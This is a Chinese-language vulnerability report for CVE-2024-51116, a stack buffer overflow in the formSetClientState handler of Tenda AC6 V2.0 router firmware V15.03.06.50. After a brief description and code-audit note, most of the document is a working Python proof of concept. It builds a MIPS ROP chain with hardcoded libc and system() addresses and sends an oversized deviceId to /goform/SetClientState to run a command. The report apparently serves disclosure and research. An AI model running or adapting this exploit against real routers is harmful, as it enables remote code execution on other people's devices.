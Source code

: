 # tenda AC6V2.0 缓冲区溢出漏洞报告  
# CVE-2024-51116
## 漏洞描述  

在 tenda AC6V2.0 的 `formSetClientState` 函数中，存在缓冲区溢出漏洞。该漏洞可能导致攻击者利用恶意输入，覆盖内存中其他重要数据，从而可能导致设备崩溃或执行任意代码。  

## 影响版本  

- V15.03.06.50  

## 代码审计

参数deviceId可控，且它的值通过sprintf函数复制给栈上变量buff，造成溢出

<img width="479" alt="{6F204FC3-3C06-4C46-BBBE-EB8A3C5121B6}" src="https://github.com/user-attachments/assets/4db1f0ca-e368-4b41-882b-13ebc40754d4">



## 漏洞利用证明 (POC)  

```plaintext
import requests
from pwn import *

target_ip = "192.168.0.1"
target_port = 80
cookie = {"bLanguage":"zh", "password":"dmg23f"}

libcbase = 0x7f526000
mov_a0_jmp_sp = 0x28D58 + libcbase    #|addiu $a0,0x20($sp)|  jr   0x1C($sp) |
cmd = b"echo 123 > 1.txt"
system = 0x7f710b10

rop=p32(mov_a0_jmp_sp)+0x1c*b'a'+p32(system)+cmd

def exp_client():
	url = f"http://{target_ip}/goform/SetClientState" 
	payload = b'a'*0x206+rop	
	data = {"deviceId": payload,
		"limitEn": 1,
	}
	response = requests.post(url, cookies=cookie, data=data)
	print(response.text)

exp_client()
